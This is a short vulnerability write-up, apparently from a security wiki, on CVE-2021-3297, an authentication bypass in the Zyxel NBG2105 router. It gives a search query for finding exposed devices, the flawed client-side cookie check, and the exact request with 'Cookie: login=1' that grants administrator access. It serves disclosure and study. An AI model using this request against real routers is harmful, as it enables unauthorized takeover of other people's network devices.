 # Zyxel NBG2105 Authentication Bypass CVE-2021-3297

## Vulnerability Description

Zyxel NBG2105 has authentication bypass, and the attacker can use the login parameter to achieve background login.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zyxel NBG2105</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ZyXEL-NBG2105"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-5.png)



The front-end file `/js/util_gw.js` has the front-end verification of the cookie login parameters.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-6.png)



You can see that if the `login=1` is detected in the cookie, it will jump to home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



If the request is as follows, you will jump to the `home.htm page as an administrator`



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-7.png)



## 